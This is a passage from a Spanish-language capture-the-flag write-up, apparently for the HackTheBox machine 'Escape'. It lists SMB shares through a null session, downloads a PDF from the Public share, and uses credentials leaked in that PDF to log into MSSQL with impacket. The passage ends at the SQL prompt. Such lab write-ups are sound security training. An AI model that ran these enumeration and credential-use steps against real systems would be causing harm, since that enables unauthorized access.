 Si enumeramos con SMBCLIENT vemos lo siguiente.

```bash
❯ smbclient -L 10.10.11.202 -N

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	Public          Disk      
	SYSVOL          Disk      Logon server share 
SMB1 disabled -- no workgroup available
```
- -L significa que queremos listar los archivos compartidos a nivel de sistema.
- -N que queremos ver si está habilitada una Null Sesion.

Como vemos el recurso `Public`procedemos a ver su contenido.

```bash
❯ smbclient //10.10.11.202/Public  -N
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sat Nov 19 07:51:25 2022
  ..                                  D        0  Sat Nov 19 07:51:25 2022
  SQL Server Procedures.pdf           A    49551  Fri Nov 18 09:39:43 2022

		5184255 blocks of size 4096. 1455347 blocks available
smb: \> get "SQL Server Procedures.pdf"
getting file \SQL Server Procedures.pdf of size 49551 as SQL Server Procedures.pdf (49,5 KiloBytes/sec) (average 49,5 KiloBytes/sec)
smb: \> 

```

Si lo abrimos en nuestro navegador, veremos lo siguiente:

![Hacker ]({{ 'assets/img/posts//htb/escape/2.png' | relative_url }}){: .center-image }
_PDF_

![Hacker ]({{ 'assets/img/posts//htb/escape/3.png' | relative_url }}){: .center-image }
_PDF_

Si observamos se lekea un usuario y su contraseña del servicio MSSQL. Nos podemos conectar.
```bash
❯ impacket-mssqlclient sequel.htb/PublicUser:GuestUserCantWrite1@10.10.11.202
Impacket v0.10.1.dev1+20230120.195338.34229464 - Copyright 2022 Fortra

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC\SQLMOCK): Line 1: Changed database context to 'master'.
[*] INFO(DC\SQLMOCK): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL> 
```
